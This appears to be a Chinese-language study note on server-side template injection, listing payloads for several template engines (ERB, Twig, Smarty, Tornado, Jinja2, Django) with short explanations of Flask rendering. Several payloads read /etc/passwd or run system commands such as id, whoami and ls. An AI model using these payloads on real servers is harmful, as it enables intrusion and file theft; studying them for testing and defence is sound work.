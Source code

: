 # 陈励文学习报告01
**模板注入：**

**Ruby**
```
\<%= 7 \* 7 %\>

\<%= File.open('/etc/passwd').read %\>
```
**Java**
```
\${7\*7}
```
**Twig**
```
{{7\*7}}
```
**Smarty**
```
{php}echo \`id\`;{/php}
```
**AngularJS**
```
\$eval('1+1')
```
**Tornado**

引用模块 {% import module %}
```
=\> {% import os %}{{ os.popen("whoami").read() }}
```
**Flask/Jinja2**
```
{{ config.items() }}

{{''.__class__.__mro__[-1].__subclasses__()}}
```
**Django**
```
{{ request }}

{% debug %}

{% load module %}

{% include "x.html" %}

{% extends "x.html" %}
```
**相关属性：**

![](media/721de0fe561cf0f367dd7d84743a4174.png)

**常用Payload**
```
().__class__.__bases__[0].__subclasses__()[40](r'/etc/passwd').read()

().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__("os").popen("ls
/").read()' )
```
![](media/349e86e34d3f6903a22fadb3ce1d7eea.png)

渲染

1.  render_template()用来渲染一个指定的文件

![](media/fbfdf2f4fd12d715f076bf59bd44df97.png)

1.  render_template_string用来渲染一个字符串的

![](media/92b5c872d3792989600aa9315141e12e.png)

Flask使用{{}}作为变量包裹的标识符。同时，这个符号包裹内还可以执行一些简单的表达式。

SSTI漏洞（服务端模板注入漏洞）：模板引擎在使用渲染函数时，由于代码不规范或盲目信任用户输入而导致的代码注入漏洞。、

1.  模板引擎：

![](media/c1510ed8936edd10fd67eaf1990d4032.png)
